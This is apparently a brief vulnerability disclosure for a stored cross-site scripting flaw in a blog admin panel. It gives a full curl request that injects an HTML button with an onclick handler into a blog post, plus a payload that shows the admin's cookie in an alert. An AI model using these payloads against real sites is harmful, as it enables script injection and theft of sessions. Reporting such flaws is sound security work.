 # name 
Blog Stored xss

# path
blog add edit
http://127.0.0.1:9999/admin/index
befor login

# xss Payload

```
curl 'http://127.0.0.1:9999/admin/content/C' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: PHPSESSID=bc4ad1f19e8790aeb682f3614a9229ad' \
  -H 'Origin: http://127.0.0.1:9999' \
  -H 'Referer: http://127.0.0.1:9999/admin/form/addpage' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: com.asiainfo.app' \
  -H 'sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  --data-raw 'title=Test&content=Test%0A%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%0A%60%60%60%0A%3Cbutton+onclick%3Dalert(333)%3E%0A111%0A%3C%2Fbutton%3E%0A%60%60%60&permid=666&uid=f473b258-96be-4dcc-83ec-82b3e610c672&cid='
```

# Effect
Public Blog View
[![](./img/2.png)](./img/2.png)
alert
[![](./img/5.png)](./img/5.png)
[![](./img/6.png)](./img/6.png)

admin view 
[![](./img/3.png)](./img/3.png)
alert
[![](./img/4.png)](./img/4.png)

admin cookie
```
<button onclick="alert(document.cookie)">
	Cookie
</button>
```
![image](https://github.com/user-attachments/assets/c6945cf6-c7f3-43d8-b897-a204a28cdf72)






